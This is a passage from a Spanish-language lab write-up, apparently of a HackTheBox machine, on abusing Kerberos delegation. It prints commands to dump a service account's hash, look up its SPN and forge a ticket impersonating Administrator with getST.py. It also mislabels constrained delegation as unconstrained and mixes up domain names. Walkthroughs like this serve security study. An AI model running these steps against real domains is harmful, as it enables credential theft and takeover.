En esta fase del ataque, aprovechamos la delegación no restringida que tiene el usuario **SVC\_INT$**, que posee permisos de **AllowedToDelegate** sobre el controlador de dominio **DC.LOCAL.HTB** (este dato lo descubrimos en BloodHound). Esto significa que **SVC\_INT$** puede recibir y pasar credenciales de usuario a otros servicios, lo que se convierte en una vulnerabilidad que podemos explotar.

Primero, utilizamos el script **gMSADumper.py** para extraer el hash de la cuenta de servicio de **SVC\_INT$**, que es esencial para obtener el Ticket Granting Ticket (TGT). Con este hash, podemos suplantar al usuario y solicitar tickets de acceso a otros servicios en el dominio.

Luego, lo que deberemos ejecutar es el comando de **pywerview** para obtener el Service Principal Name (SPN), que nos permitirá interactuar con el servicio web correspondiente. Esta información es crucial para la última etapa, donde utilizaremos **getST.py**.

### Pywerview Usage (Get a SPN)

Utilizaremos la herramienta de **pywerview** para obtener el SPN (Service Principal Name) al cual SVC\_INT$ dispone del privilegio de **AllowedToDelegate**

```bash
pywerview get-netcomputer -u 'Ted.Graves' -t 10.10.10.248 --full-data
```

<figure><figcaption></figcaption></figure>

### Abusing AllowedToDelegate Rights (getST.py) (User Impersonation)

Finalmente, al ejecutar **getST.py** con el SPN obtenido y el hash de **SVC\_INT$**, podemos solicitar un ticket para impersonar a un usuario con privilegios más altos, como el administrador. De esta manera, aprovechamos la delegación no restringida para escalar privilegios y obtener acceso a recursos restringidos dentro del dominio.

Si tenemos problemas a la hora de  lanzar la herramienta por la sincronización de nuestra hora con la del dc \[_KRB\_AP\_ERR\_SKEW(Clock skew too great)_], procederemos a ejecutar _ntpdate -s 10.10.10.248_

Comprobamos que ganamos acceso como usuario Administrator y obtenemos la flag de **root.txt**.


```bash
getST.py -spn WWW/intelligencet.htb -impersonate Administrator -dc-ip 10.10.10.248 intelligence.htb/svc_int -hashes :1d7a055a77db01cde7db3f4d006081fb
```


<figure><figcaption></figcaption></figure>
